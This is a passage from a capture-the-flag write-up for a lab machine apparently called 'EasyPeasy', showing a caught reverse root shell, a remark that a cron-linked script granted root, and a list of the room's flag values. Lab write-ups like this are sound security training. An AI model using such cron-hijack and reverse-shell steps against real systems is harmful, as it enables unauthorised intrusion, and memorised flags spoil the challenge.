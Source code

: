 ```sh
connect to [10.11.96.92] from (UNKNOWN) [10.10.57.125] 48172
bash: cannot set terminal process group (1553): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
root
```
- As I just interact the crontab it gave me the root! because crontab was connected with the script!

```sh
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Sep 11 04:08 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
```


## Flags
**Flag1: `flag{f1rs7_fl4g}`**  

**Flag2: `flag{1m_s3c0nd_fl4g}`**  

**Flag3: `flag{9fdafbd64c47471a8f54cd3fc64cd312}`**  

**UserFlag: `flag{n0wits33msn0rm4l}`**  

**RootFlag: `flag{63a9f0ea7bb98050796b649e85481845}`**  


## EasyPeasy Pwned!
